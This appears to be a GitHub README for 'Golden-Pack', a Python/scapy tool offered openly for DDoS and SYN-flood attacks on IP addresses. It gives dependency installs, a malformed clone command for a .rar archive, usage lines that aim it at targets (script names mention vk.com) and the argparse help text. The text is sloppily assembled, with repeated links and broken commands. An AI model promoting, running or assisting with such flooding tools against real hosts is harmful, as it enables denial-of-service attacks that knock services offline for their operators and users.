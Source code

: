 # Golden-Pack
Fenix Junior Tools Professional's
# Python2/3-IP DDOS Attack Tool's

(https://github.com/managertermuxcodes/Golden-Pack))
(https://github.com/managertermuxcodes/Golden-Pack))
(https://github.com/managertermuxcodes/Golden-Pack))

Python IP DDOS Attack Tool's

You can start IP DDOS attack with this tool.

Simple and efficient.

## Dependencies
```
apt install python-scapy
apt install python3-scapy
```

## Installation

```
git clone [(https://github.com/managertermuxcodes/Golden-Pack/blob/main/Gold%20Pack%20By%20FenixJuniorTools.rar)]
cd Python-IP DDOS Attack Tool's
```

## Usage

```
python3 py3 snos web-sites_cmd.py -t 10.20.30.40 -p 8080 -c 5
python3 py3 snos ip tgk.py
python snos ip vk.com.py
```
```
usage: py3 snos web-sites_cmd.py [-h] [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target IP address
  --port PORT, -p PORT  target port number
  --count COUNT, -c COUNT
                        number of packets
  --version, -v         show program's version number and exit

Usage: python3 snos web-sites_cmd.py -t 10.20.30.40 -p 8080 -c 1
```

![alt tag](https://emreovunc.com/projects/python_synflood_attack_cmd.png)
